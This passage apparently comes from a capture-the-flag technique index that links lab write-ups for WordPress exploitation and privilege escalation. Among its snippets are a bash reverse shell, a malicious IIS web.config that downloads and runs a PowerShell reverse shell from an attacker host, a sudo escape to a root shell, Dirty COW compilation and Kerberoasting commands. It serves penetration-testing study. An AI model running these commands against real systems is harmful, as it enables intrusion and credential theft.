certain wordpress installations might have a `/plugins/` directory that could provide source files or leak sensitive information  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Blocky](https://github.com/7h3rAm/writeups/blob/master/htb.blocky/writeup.pdf) | [htb#48](https://app.hackthebox.eu/machines/48) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="exploit_wordpress_plugin_activitymonitor"></a>
#### exploit_wordpress_plugin_activitymonitor [⇡](#exploit)  
wordpress plugin `Plainview Activity Monitor` is vulnerable to remote command injection  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf) | [vh#315](https://www.vulnhub.com/entry/dc-6,315/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
  
[+] https://www.exploit-db.com/exploits/45274  
  
---
<a name="exploit_wordpress_plugin_hellodolly"></a>
#### exploit_wordpress_plugin_hellodolly [⇡](#exploit)  
wordpress plugin `Hello Dolly` (default on stock wp installs) file `hello.php` is modified with php reverse shell code to gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
| 2. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="exploit_wordpress_template"></a>
#### exploit_wordpress_template [⇡](#exploit)  
edit a wordpress template file, like `404.php` and add php reverse shell code within it to gain interactive access on the target system  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [LazySysAdmin: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lazysysadmin1/writeup.pdf) | [vh#205](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_smb_nullsession`](https://github.com/7h3rAm/writeups#exploit_smb_nullsession), [`exploit_smb_web_root`](https://github.com/7h3rAm/writeups#exploit_smb_web_root), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_wordpress_template`](https://github.com/7h3rAm/writeups#exploit_wordpress_template), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---

<a name="privesc"></a>
### ⚙️ PrivEsc [🡑](#ttps)
<a name="privesc_anansi"></a>
#### privesc_anansi [⇡](#privesc)  
the `anansi_util` application has `sudo` privileges. use it to run manual commands and upon error run `!/bin/bash` to execute root shell  
```shell
sudo /home/anansi/bin/anansi_util manual cat /etc/shadow
  - (press RETURN) !/bin/bash

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Brainpan: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.brainpan/writeup.pdf) | [vh#51](https://www.vulnhub.com/entry/brainpan-1,51/) |  | [`exploit_bof`](https://github.com/7h3rAm/writeups#exploit_bof), [`privesc_anansi`](https://github.com/7h3rAm/writeups#privesc_anansi), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo) |
  
  
---
<a name="privesc_bash_reverseshell"></a>
#### privesc_bash_reverseshell [⇡](#privesc)  
bash reverse shell command  
```shell
bash -i >& /dev/tcp/<attackerip>/<attackerport> 0>&1

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf) | [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell) |
  
[+] http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
[+] https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells  
  
---
<a name="privesc_bof"></a>
#### privesc_bof [⇡](#privesc)  
craft exploit for the buffer overflow vulnerability to gain elevated privileges  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [IMF: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.imf/writeup.pdf) | [vh#162](https://www.vulnhub.com/entry/imf-1,162/) |  | [`exploit_php_fileupload_bypass`](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [`privesc_bof`](https://github.com/7h3rAm/writeups#privesc_bof) |
  
  
---
<a name="privesc_chkrootkit"></a>
#### privesc_chkrootkit [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf) | [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell) |
  
  
---
<a name="privesc_credsreuse"></a>
#### privesc_credsreuse [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
  
  
---
<a name="privesc_cron"></a>
#### privesc_cron [⇡](#privesc)  
leverage cronjobs to modify and execute `root` owned files  
```shell
crontab -l
cat /etc/crontab

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [CronOS](https://github.com/7h3rAm/writeups/blob/master/htb.cronos/writeup.pdf) | [htb#11](https://app.hackthebox.eu/machines/11) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron) |
| 2. | [hackfest2016: Sedna](https://github.com/7h3rAm/writeups/blob/master/vulnhub.sedna/writeup.pdf) | [vh#181](https://www.vulnhub.com/entry/hackfest2016-sedna,181/) |  | [`exploit_php_fileupload`](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_chkrootkit`](https://github.com/7h3rAm/writeups#privesc_chkrootkit), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_bash_reverseshell`](https://github.com/7h3rAm/writeups#privesc_bash_reverseshell) |
| 3. | [BSides Vancouver: 2018 (Workshop)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.bsidesvancouver2018workshop/writeup.pdf) | [vh#231](https://www.vulnhub.com/entry/bsides-vancouver-2018-workshop,231/) |  | [`enumerate_proto_ftp`](https://github.com/7h3rAm/writeups#enumerate_proto_ftp), [`enumerate_proto_ssh`](https://github.com/7h3rAm/writeups#enumerate_proto_ssh), [`exploit_ssh_bruteforce`](https://github.com/7h3rAm/writeups#exploit_ssh_bruteforce), [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
| 4. | [Billy Madison: 1.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.billymadison1dot1/writeup.pdf) | [vh#161](https://www.vulnhub.com/entry/billy-madison-11,161/) |  | [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_cron`](https://github.com/7h3rAm/writeups#privesc_cron), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers) |
  
  
---
<a name="privesc_cron_rootjobs"></a>
#### privesc_cron_rootjobs [⇡](#privesc)  
it would be useful to find `root` owned cronjob processes  
```shell
pspy # find root owned processes, cronjobs
find / -type f -mmin -60 -ls 2>/dev/null # look for recently modified files since a user may not be able to see cron jobs by root
./CheckcronJob.sh # find background processes

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Bashed](https://github.com/7h3rAm/writeups/blob/master/htb.bashed/writeup.pdf) | [htb#118](https://app.hackthebox.eu/machines/118) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_cron_rootjobs`](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs) |
  
[+] https://www.reddit.com/r/oscp/comments/gb4k83/htb_bashed_and_my_learnings_oscp_journey/  
  
---
<a name="privesc_ctf_usertxt_timestamp"></a>
#### privesc_ctf_usertxt_timestamp [⇡](#privesc)  
a neat trick for ctf boxes is to use `user.txt` file time as a reference to search for recently modified files  
```shell
ls -lh /home/<username>/user.txt

```
  
[+] https://0x00sec.org/t/enumeration-for-linux-privilege-escalation/1959/19  
  
---
<a name="privesc_dirtycow"></a>
#### privesc_dirtycow [⇡](#privesc)  
race condition that allows breakage of private read-only memory mappings  
```shell
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread -o dc dc.c -lcrypt
./dc

```
  
[+] https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs  
  
---
<a name="privesc_docker_group"></a>
#### privesc_docker_group [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lin.Security: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.linsecurity1/writeup.pdf) | [vh#244](https://www.vulnhub.com/entry/linsecurity-1,244/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group) |
  
  
---
<a name="privesc_env_relative_path"></a>
#### privesc_env_relative_path [⇡](#privesc)  
certain files when referenced without their complete path, can be misused to gain elevated privileges. this can be done by modifying the environment path to find the referenced file within a directory under attacker's control and placing a malicious binary within that directory with the same name as the referenced file  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Year of the Fox](https://github.com/7h3rAm/writeups/blob/master/thm.yotf/writeup.pdf) | [tryhackme#yotf](https://tryhackme.com/room/yotf) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_command_injection`](https://github.com/7h3rAm/writeups#exploit_command_injection), [`privesc_env_relative_path`](https://github.com/7h3rAm/writeups#privesc_env_relative_path) |
  
[+] https://muirlandoracle.co.uk/2020/05/30/year-of-the-fox-write-up/  
  
---
<a name="privesc_freebsd"></a>
#### privesc_freebsd [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: 2014 (#5)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix5/writeup.pdf) | [vh#62](https://www.vulnhub.com/entry/kioptrix-2014-5,62/) |  | [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd) |
  
  
---
<a name="privesc_iis_webconfig"></a>
#### privesc_iis_webconfig [⇡](#privesc)  
on iis servers, the web.config file stores configuration data for web applications (similar to .htaccess on apacher server). it can contain asp code which will be executed by the web server. use the powershell reverse shell from [nishang framework](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get a call back from uploaded web.config file  
```shell
sample web.config:
  <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
    </configuration>
    <%@ Language=VBScript %>
    <%
      call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('<attackerip>/Invoke-PowerShellTcp.ps1')")
    %>

```
  
[+] https://0xdf.gitlab.io/2018/10/27/htb-bounty.html  
  
---
<a name="privesc_kerberos_kerberosting"></a>
#### privesc_kerberos_kerberosting [⇡](#privesc)  
allows us to extract administrator tickets and crack those to obtain administrator password  
```shell
# add entry for target system within /etc/hosts
GetUserSPNs.py -request active.htb/SVC_TGS -outputfile ./adminticket
john --format=krb5tgs --wordlist /usr/share/wordlists/rockyou.txt ./adminticket # does not work on john v1.8.0.6-jumbo-1-bleeding
psexec.py administrator@active.htb

```
  
[+] https://0xrick.github.io/hack-the-box/active/  
[+] https://room362.com/post/2016/kerberoast-pt1/  
[+] https://room362.com/post/2016/kerberoast-pt2/  
[+] https://room362.com/post/2016/kerberoast-pt3/  
  
---
<a name="privesc_kernel_ipappend"></a>
#### privesc_kernel_ipappend [⇡](#privesc)  
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5/4.8 / Fedora Core 4/5/6 x86)  
```shell
gcc -m32 -o exploit 9542.c -Wl,--hash-style=both

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1.1 (#2)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix2/writeup.pdf) | [vh#23](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_cmdexec`](https://github.com/7h3rAm/writeups#exploit_cmdexec), [`privesc_kernel_ipappend`](https://github.com/7h3rAm/writeups#privesc_kernel_ipappend) |
  
[+] https://www.exploit-db.com/exploits/9542  
[+] https://nvd.nist.gov/vuln/detail/CVE-2009-2698  
  
---
<a name="privesc_kernel_overlayfs"></a>
#### privesc_kernel_overlayfs [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf) | [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
  
  
---
<a name="privesc_lxc_bash"></a>
#### privesc_lxc_bash [⇡](#privesc)  
```shell
check output of id command
if user is member of lxd group, follow https://reboare.github.io/lxd/lxd-escape.html

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [InfoSec Prep: OSCP](https://github.com/7h3rAm/writeups/blob/master/vulnhub.infosecpreposcp/writeup.pdf) | [vh#508](https://www.vulnhub.com/entry/infosec-prep-oscp,508/) |  | [`enumerate_proto_http`](https://github.com/7h3rAm/writeups#enumerate_proto_http), [`exploit_ssh_privatekeys`](https://github.com/7h3rAm/writeups#exploit_ssh_privatekeys), [`privesc_lxc_bash`](https://github.com/7h3rAm/writeups#privesc_lxc_bash) |
  
  
---
<a name="privesc_modssl"></a>
#### privesc_modssl [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Kioptrix: Level 1 (#1)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix1/writeup.pdf) | [vh#22](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/) |  | [`exploit_modssl`](https://github.com/7h3rAm/writeups#exploit_modssl), [`privesc_modssl`](https://github.com/7h3rAm/writeups#privesc_modssl) |
  
  
---
<a name="privesc_mysql_creds"></a>
#### privesc_mysql_creds [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [hackfest2016: Quaoar](https://github.com/7h3rAm/writeups/blob/master/vulnhub.quaoar/writeup.pdf) | [vh#180](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_defaultcreds`](https://github.com/7h3rAm/writeups#exploit_wordpress_defaultcreds), [`exploit_wordpress_plugin_hellodolly`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_hellodolly), [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_credsreuse`](https://github.com/7h3rAm/writeups#privesc_credsreuse) |
| 2. | [Escalate_Linux: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.escalatelinux/writeup.pdf) | [vh#323](https://www.vulnhub.com/entry/escalate_linux-1,323/) |  | [`exploit_python_reverseshell`](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 3. | [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf) | [vh#315](https://www.vulnhub.com/entry/dc-6,315/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
  
  
---
<a name="privesc_mysql_root"></a>
#### privesc_mysql_root [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf) | [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 2. | [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf) | [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
  
  
---
<a name="privesc_mysql_udf"></a>
#### privesc_mysql_udf [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Lord Of The Root: 1.0.1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.lordoftheroot101/writeup.pdf) | [vh#129](https://www.vulnhub.com/entry/lord-of-the-root-101,129/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_kernel_overlayfs`](https://github.com/7h3rAm/writeups#privesc_kernel_overlayfs), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
| 2. | [Kioptrix: Level 1.3 (#4)](https://github.com/7h3rAm/writeups/blob/master/vulnhub.kioptrix4/writeup.pdf) | [vh#25](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/) |  | [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf) |
  
  
---
<a name="privesc_nfs_norootsquash"></a>
#### privesc_nfs_norootsquash [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [HackLAB: Vulnix](https://github.com/7h3rAm/writeups/blob/master/vulnhub.vulnix/writeup.pdf) | [vh#48](https://www.vulnhub.com/entry/hacklab-vulnix,48/) |  | [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_nfs_norootsquash`](https://github.com/7h3rAm/writeups#privesc_nfs_norootsquash), [`privesc_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#privesc_ssh_authorizedkeys) |
  
  
---
<a name="privesc_nmap"></a>
#### privesc_nmap [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Mr-Robot: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.mrrobot1/writeup.pdf) | [vh#151](https://www.vulnhub.com/entry/mr-robot-1,151/) |  | [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
| 2. | [DC: 6](https://github.com/7h3rAm/writeups/blob/master/vulnhub.dc6/writeup.pdf) | [vh#315](https://www.vulnhub.com/entry/dc-6,315/) |  | [`enumerate_app_wordpress`](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [`exploit_wordpress_plugin_activitymonitor`](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [`privesc_mysql_creds`](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [`privesc_sudo`](https://github.com/7h3rAm/writeups#privesc_sudo), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
  
  
---
<a name="privesc_passwd_writable"></a>
#### privesc_passwd_writable [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Misdirection: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.misdirection1/writeup.pdf) | [vh#371](https://www.vulnhub.com/entry/misdirection-1,371/) |  | [`exploit_php_webshell`](https://github.com/7h3rAm/writeups#exploit_php_webshell), [`exploit_bash_reverseshell`](https://github.com/7h3rAm/writeups#exploit_bash_reverseshell), [`privesc_sudoers`](https://github.com/7h3rAm/writeups#privesc_sudoers), [`privesc_passwd_writable`](https://github.com/7h3rAm/writeups#privesc_passwd_writable) |
  
  
---
<a name="privesc_psexec_login"></a>
#### privesc_psexec_login [⇡](#privesc)  
If credentials for an administrative user are available, we can use `psexec.py` to connect and gain elevated access to the target system.  
```shell
psexec <username>@<targetip>

```
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Archetype](https://github.com/7h3rAm/writeups/blob/master/htb.archetype/writeup.pdf) | [htb#287](https://app.hackthebox.eu/machines/287) |  | [`enumerate_proto_smb`](https://github.com/7h3rAm/writeups#enumerate_proto_smb), [`enumerate_proto_smb_anonymous_access`](https://github.com/7h3rAm/writeups#enumerate_proto_smb_anonymous_access), [`enumerate_proto_sql`](https://github.com/7h3rAm/writeups#enumerate_proto_sql), [`enumerate_proto_sql_ssis_dtsconfig`](https://github.com/7h3rAm/writeups#enumerate_proto_sql_ssis_dtsconfig), [`exploit_sql_login`](https://github.com/7h3rAm/writeups#exploit_sql_login), [`exploit_sql_xpcmdshell`](https://github.com/7h3rAm/writeups#exploit_sql_xpcmdshell), [`enumerate_app_powershell_history`](https://github.com/7h3rAm/writeups#enumerate_app_powershell_history), [`privesc_psexec_login`](https://github.com/7h3rAm/writeups#privesc_psexec_login) |
  
  
---
<a name="privesc_setuid"></a>
#### privesc_setuid [⇡](#privesc)  
  
| # | Name | Infra | Killchain | TTPs |
|---|------|-------|-----------|------|
| 1. | [Node: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.node1/writeup.pdf) | [vh#252](https://www.vulnhub.com/entry/node-1,252/) |  | [`exploit_nodejs`](https://github.com/7h3rAm/writeups#exploit_nodejs), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`exploit_mongodb`](https://github.com/7h3rAm/writeups#exploit_mongodb), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid) |
| 2. | [Mr-Robot: 1](https://github.com/7h3rAm/writeups/blob/master/vulnhub.mrrobot1/writeup.pdf) | [vh#151](https://www.vulnhub.com/entry/mr-robot-1,151/) |  | [`exploit_php_reverseshell`](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [`privesc_setuid`](https://github.com/7h3rAm/writeups#privesc_setuid), [`privesc_nmap`](https://github.com/7h3rAm/writeups#privesc_nmap) |
